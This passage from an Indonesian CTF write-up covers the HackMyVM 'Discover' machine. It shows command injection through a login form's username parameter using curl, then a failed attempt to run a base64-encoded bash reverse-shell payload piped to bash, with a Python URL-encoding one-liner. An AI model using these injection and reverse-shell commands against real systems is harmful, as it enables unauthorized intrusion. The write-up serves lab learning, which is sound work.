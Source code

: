 ```html
<input align="center" type="submit" value="Submit">
```
*output query* yang dihasilkan dari request.
```js
http://log.discover.hmv/index.php?username=Discover&password=aaaaaaaaaaa

```
tidak ada hasil yang pasti, error message atau semacamnya. memang tampak aneh dan sangat wajar dalam dunia CTF apalagi machine pada difficulty medium.
*SSTI* sudah saya coba tapi tetap tidak bisa, ya iyalah orang beda franework yang dipakai. lalu saat saya mencoba untuk ngetest command injection dengan command *uname -a* dengan *curl* hasilnya akan saya letakkan di bawah ini.
```html
╭─ via [machines/discover]
╰─ curl -s 'http://log.discover.hmv/index.php?username=uname+-a&password=aaaaaaaaaaa'
<html>
  <head>
    <title>Discover login</title>
  </head>
  <body>
    <div style="background-color:#afafaf;padding:15px;border-radius:20px 20px 0px 0px">
    </div>
    <div style="background-color:#c9c9c9;padding:20px;">
      <h1 align="center">Login as Discover</h1>
    <form align="center" action="index.php" method="$_GET">
      <label align="center">Username:</label><br>
      <input align="center" type="text" name="username" value="Discover"><br>
      <label>Password:</label><br>
      <input align="center" type="password" name="password" value=""><br>
    <input align="center" type="submit" disabled="disabled" value="Submit">

    </form>
  </div>
  <div style="background-color:#ecf2d0;padding:20px;border-radius:0px 0px 20px 20px" align="center">
    Linux debian 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64 GNU/Linux
  </div>
  </body>
</html>

```
langsung gercep untuk pasang *reverse shell* eh ternyata-ternyata~ gagal. payload yang saya masukkan
```sh
echo "7dOy1%2BT7Hq%2B%2BuiKqhWX4zCvVd8C7LBO%2B" | base64 -d | bash
```
itu adalah basic rev shell yang berbasis *bash* dan saya *encode* menggunakan *base64*. tetap tidak bisa. lalu saya coba untuk di*encode* ke *URL* tetap tidak bisa juga.
```sh
╭─ via [machines/discover]
╰─ python -c 'import urllib.parse; string = "echo \"7dOy1%2BT7Hq%2B%2BuiKqhWX4zCvVd8C7LBO%2B\" | base64 -d | bash "; print(urllib.parse.quote_plus(string))'
echo+%227dOy1%252BT7Hq%252B%252BuiKqhWX4zCvVd8C7LBO%252B%22+%7C+base64+-d+%7C+bash

```
lalu saya ganti dalam bentuk script yang dioutputkan ke */tmp* tetap sama saja ketika saya eksekusi tidak membuahkan hasil.
